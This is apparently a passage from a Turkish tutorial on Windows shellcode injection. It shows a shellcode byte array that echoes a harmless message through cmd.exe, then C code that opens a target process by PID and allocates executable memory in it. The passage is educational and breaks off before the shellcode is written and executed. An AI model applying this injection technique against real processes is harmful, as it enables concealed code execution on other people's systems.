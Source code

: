 ```c
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x4b\x20\x22\x65"
"\x63\x68\x6f\x20\x53\x68\x65\x6c\x6c\x63\x6f\x64\x65\x20"
"\x49\x6e\x6a\x65\x63\x74\x69\x6f\x6e\x20\x77\x69\x74\x68"
"\x20\x62\x65\x6b\x6f\x6f\x22\x00";
```

Bu shellcode, cmd.exe'yi açarak "Shellcode Injection with bekoo" yazısını ekrana yazdıran bir shellcode'dur. Bu shellcode'u hedef process'e enjekte edeceğiz.

```c
int main(int argc, char* argv[]) {
    if (argc < 2) {
        printf("Usage: .\\program.exe <PID>");
        return -1;
    }
    DWORD       PID = atoi(argv[1]);
    HANDLE      HandleProcess = NULL;
    HANDLE      HandleThread = NULL;
    LPVOID      RemoteBuffer = NULL;
    ...
```

Programın çalıştırılmasından ardından ilk olarak main içerisinde argc değişkenini kontrol ediyoruz. Bu değişken, programın çalıştırılmasında verilen argüman sayısını tutar. Eğer argc değişkeni 2'den küçükse, programın doğru kullanımını ekrana bastırıp -1 ile programı return ediyoruz. 

Daha sonra malware'in çalıştırılması için gereken değişkenleri oluşturuyoruz:

- **PID:** Bu değişken, hedef process'in PID'sini tutar.
- **HandleProcess:** Bu değişken, hedef process'in handle'ini tutmak için kullanılır.
- **HandleThread:** Bu değişken, hedef process'te oluşturulacak thread'ın handle'ını tutmak için kullanılır.
- **RemoteBuffer:** Bu değişken, hedef process'te oluşturulacak shellcode'un adresini tutmak için kullanılır.

```c
HandleProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
if (HandleProcess == NULL) {
    printf("Failed to Open Target Process! Error Code: 0x%lx", GetLastError());
    return -1;
}
```

Bu kısımda, hedef process'in handle'ını alıyoruz. Yani hedef programa erişim sağlıyoruz gibi düşünebilirsiniz. Eğer hedef process'in handle'ını alamazsak, hata mesajı ekrana bastırıp -1 ile programı return ediyoruz.

```c
RemoteBuffer = VirtualAllocEx(HandleProcess, NULL, sizeof(Shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
if (RemoteBuffer == NULL) {
    printf("Failed to Allocated Memory for DLL! Error Code: 0x%lx", GetLastError());
    CloseHandle(HandleProcess);
    return -1;
}
```
